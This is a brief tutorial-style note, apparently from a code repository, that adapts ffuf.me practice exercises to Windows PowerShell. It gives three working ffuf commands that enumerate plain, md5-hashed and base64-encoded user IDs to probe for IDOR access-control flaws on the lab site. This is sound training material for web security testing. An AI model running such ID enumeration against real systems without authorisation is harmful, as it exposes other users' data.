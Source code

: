 # Using fuff pipes on a winzoz box (oh my...)
Since I'm a big Winzoz f(a)n, based on the following resource: http://ffuf.me/cd/pipes<br>
we can use the following Powershel commands to accomplish the same tasks

##  Test parameter for an [IDOR](https://portswigger.net/web-security/access-control/idor) vulnerability and try some integers against it.

    PS C:\Users\XXXXX\ffuf> 1..1000 | % { write "$_" } | .\ffuf.exe -w - -u http://ffuf.me/cd/pipes/user?id=FUZZ
    
## Finding the md5 hashed ID

    PS C:\Users\XXXXX\ffuf> 900..1000 | % { ([System.BitConverter]::ToString((New-Object -TypeName System.Security.Cryptography.MD5CryptoServiceProvider).ComputeHash((New-Object -TypeName System.Text.UTF8Encoding).GetBytes($_)))).Replace("-","").ToLower() } | .\ffuf.exe -w - -u http://ffuf.me/cd/pipes/user3?id=FUZZ
    
## Finding the base64 encoded ID

    PS C:\Users\XXXXX\ffuf\cs tools> 800..900 | % { [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($_.ToString())) } | .\ffuf -w - -u http://ffuf.me/cd/pipes/user2?id=FUZZ
